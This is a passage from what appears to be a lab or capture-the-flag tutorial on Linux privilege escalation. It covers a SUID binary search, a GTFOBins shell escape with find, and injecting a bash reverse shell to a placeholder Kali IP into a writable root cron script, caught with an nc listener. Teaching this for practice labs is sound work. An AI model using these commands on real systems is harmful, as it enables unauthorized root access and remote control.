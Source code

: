 ```bash
find / -perm -4000 -type f 2>/dev/null
```

2. Look for something like `find`, `less`, `vim`, `nmap`, `bash`, `cp`, etc.

3. Check GTFOBins for that binary. For example:

- Visit [https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)
- Scroll down to the "SUID" section
- It gives you an exact command to try, like:

```bash
find . -exec /bin/sh \; -quit
```

4. If the binary is SUID (owned by root), and you can execute that command, it might drop you into a root shell!

---

## ❓ Mystery Task: Find Another Privilege Escalation Path from linPEAS Output

This is a more challenging task — use what linPEAS tells you to find *another* way to get root access. You're getting 4/5 fingers of help here 😉

### 🔍 Option 1: Writable Cron Scripts (aka Scheduled Jobs)

**What is cron?** Cron is a system that runs scheduled commands. If root is running a script every minute/hour/day — and you can *edit* that script — you can inject your own code.

#### ✅ Step-by-Step:

1. Check linPEAS output for `cron` jobs or scheduled tasks.
2. Or manually check the folders:

```bash
ls -l /etc/cron.d
ls -l /etc/cron.daily
ls -l /etc/cron.hourly
cat /etc/crontab
```

3. Look for scripts that:

- Run as root
- Are writable by your user

4. Inject a payload into one:

```bash
echo '/bin/bash -c "bash -i >& /dev/tcp/YOUR_KALI_IP/1234 0>&1"' >> /etc/cron.daily/backup.sh
```

5. Start a listener on Kali:

```bash
nc -lvnp 1234
```
